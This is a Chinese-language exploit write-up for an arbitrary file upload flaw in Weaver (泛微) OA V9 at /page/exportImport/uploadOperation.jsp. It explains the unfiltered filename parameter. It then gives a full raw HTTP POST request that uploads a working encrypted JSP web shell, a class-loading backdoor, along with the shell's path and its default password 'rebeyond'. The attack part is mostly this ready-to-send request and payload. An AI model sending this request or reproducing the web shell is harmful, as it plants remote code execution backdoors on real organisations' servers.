 # 泛微OA V9 任意文件上传

## 漏洞描述

泛微OA V9 存在文件上传接口导致任意文件上传

## 漏洞影响

> [!NOTE]
>
> 泛微OA V9

## 漏洞复现

漏洞位于: /page/exportImport/uploadOperation.jsp文件中

Jsp流程大概是:判断请求是否是multipart请求,然就没有了,直接上传了,啊哈哈哈哈哈

重点关注File file=new File(savepath+filename),

Filename参数,是前台可控的,并且没有做任何过滤限制

![](http://wikioss.peiqi.tech/vuln/fanwei-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

利用非常简单,只要对着

127.0.0.1/page/exportImport/uploadOperation.jsp

来一个multipartRequest就可以,利用简单,自评高危!!

![](http://wikioss.peiqi.tech/vuln/fanwei-15.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

然后请求 然后请求路径:

page/exportImport/fileTransfer/1.jsp

![](http://wikioss.peiqi.tech/vuln/fanwei-16.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

请求包

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 397
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36 Edg/89.0.774.68
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6XgyjB6SeCArD3Hc
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
dnt: 1
x-forwarded-for: 127.0.0.1
Connection: close

------WebKitFormBoundary6XgyjB6SeCArD3Hc
Content-Disposition: form-data; name="file"; filename="test.jsp"
Content-Type: application/octet-stream

<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
------WebKitFormBoundary6XgyjB6SeCArD3Hc--
```

地址: /page/exportImport/fileTransfer/test.jsp

默认密码 rebeyond